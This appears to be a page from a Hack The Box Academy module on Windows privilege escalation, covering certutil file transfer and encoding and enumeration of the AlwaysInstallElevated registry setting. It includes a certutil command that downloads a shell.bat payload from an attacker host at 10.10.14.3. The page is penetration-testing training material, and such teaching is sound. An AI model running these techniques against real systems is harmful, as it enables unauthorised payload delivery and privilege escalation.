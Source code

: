 

# Miscellaneous Techniques

**Module Name:** Windows Privilege Escalation **Page Number:** 27

#### WINDOWS PRIVILEGE ESCALATION

# Miscellaneous Techniques

## Living Off The Land Binaries and Scripts (LOLBAS)

#### Transferring File with Certutil

``` powershell-session
PS C:\htb> certutil.exe -urlcache -split -f http://10.10.14.3:8080/shell.bat shell.bat
```

#### Encoding File with Certutil

``` cmd-session
C:\htb> certutil -encode file1 encodedfile

Input Length = 7
Output Length = 70
CertUtil: -encode command completed successfully
```

#### Decoding File with Certutil

``` cmd-session
C:\htb> certutil -decode encodedfile file2

Input Length = 70
Output Length = 7
CertUtil: -decode command completed successfully.
```

## Always Install Elevated

![https://academy.hackthebox.com/storage/modules/67/alwaysinstall.png](https://academy.hackthebox.com/storage/modules/67/alwaysinstall.png)

#### Enumerating Always Install Elevated Settings

``` powershell-session
PS C:\htb> reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer

HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```

``` powershell-session
PS C:\htb> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer

HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```
